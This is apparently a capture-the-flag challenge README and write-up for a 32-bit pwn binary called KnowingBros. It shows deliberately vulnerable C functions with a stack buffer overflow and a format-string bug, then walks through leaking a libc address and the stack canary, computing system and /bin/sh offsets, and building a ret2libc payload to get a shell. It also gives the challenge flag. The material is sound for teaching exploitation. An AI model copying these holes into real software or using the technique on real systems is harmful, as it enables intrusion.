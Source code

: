 # KnowingBros

## Question Text

I was too nice to you in SmashBros!!!

Now you have to leak the address yourself.

`nc pwn.chal.gryphonctf.com 18402`

*Creator - PotatoDrug*

## Setup Guide
1. Enable ASLR
2. Run `./build.sh`

## Distribution
- knowingbros
    - SHA1: `71bf02b49a8e5ef1c2ab827424db3a99bbf83951`
    - ELF executable
- knowingbros.c
    - SHA1: `5e3f40e6256178375e532e222657b96545046dfa`
    - source code
- libc-2.27.so
    - SHA1: `e3d54f5709190f15a9c51089c70f2069771913c1`
    - libc

## Solution
If we take a look at the source code of `sendknowledge` function we can see that it is vulnerable to buffer overflow.
```c
void sendknowledge(){
    char buf[32];
    printf("Knowledge > ");
    scanf("%s", buf);
    printf("Nice Knowledge\n");
}
```

If we take a look at the source code of `echo` function we can see that it is vulnerable to format string.
```c
void echo() {
    char buf[12];
    printf("Echo > ");
    fgets(buf,sizeof buf,stdin);
    printf(buf);
}
```

If we run checksec on the binary we can see that it has all the protections enabled.
```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The exploitation procedure is very similar to SmashBros, except we dont have a function address being feed to us, we have to leak it ourselves this time.

First we will have to make use of the format string exploit to get the information we need from memory. Which is the address of a **libc function** and the **stack canary**. 

Since we only have 11 chars available for our format string we cant spam `%p`, instead we have to use position specifier `%n$p` where `n` is the nth argument you want to print, for example if `%2$p` is the same as sending `%p %p` but only taking the last result. So we can increment `n` to go through the stack to find what we need.

Using this you should find that at `%2$p` is the address of `_IO_2_1_stdin_` and at `%7$p` is the stack canary.

We now repeat what we did for SmashBros, finding the offset of the functions. This part is exactly the same as SmashBros.

The following prints the address of the LIBC object `_IO_2_1_stdin_`
```c
    printf("Here is your leaked LIBC address\nstdin: %p\n", stdin);
```

We find the offsets of `_IO_2_1_stdin_`, `system` and the string `/bin/sh` in the libc shared object used by the server
```bash
> readelf -s distrib/libc-2.27.so | grep "_IO_2_1_stdin_"
   400: 001d85c0   152 OBJECT  GLOBAL DEFAULT   34 _IO_2_1_stdin_@@GLIBC_2.1

> readelf -s distrib/libc-2.27.so | grep "system"
   254: 00129640   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d200    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d200    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

> strings -a -t x distrib/libc-2.27.so | grep "/bin/sh"
 17e0cf /bin/sh
```

Using offset of `stdin` and the leaked address of `stdin` we can calculate libc's base address using `leaked stdin address` - `stdin offset`.

We can then calculate the address of `system` function and `/bin/sh` string by adding their offset to the libc base address.

Now we are ready to make use of our buffer overflow in `sendknowledge` function. We use the overflow to overwrite the return address of the function with the address of `system` and give the address of the string `/bin/sh` as argument to give us a shell.

Your BOF payload should be in the following format.

`32 Byte Padding` + `Stack Canary` + `12 Byte Padding` + `system address` + `4 Byte Padding` + `/bin/sh address`

[Sample solution](solution/solve.py)

### Flag
`GCTF{4y3_Y0u_is_Pr377y_900D}`

## Recommended Reads
* http://lia.deis.unibo.it/Courses/SicurezzaM1011/BufferoVerflow.pdf
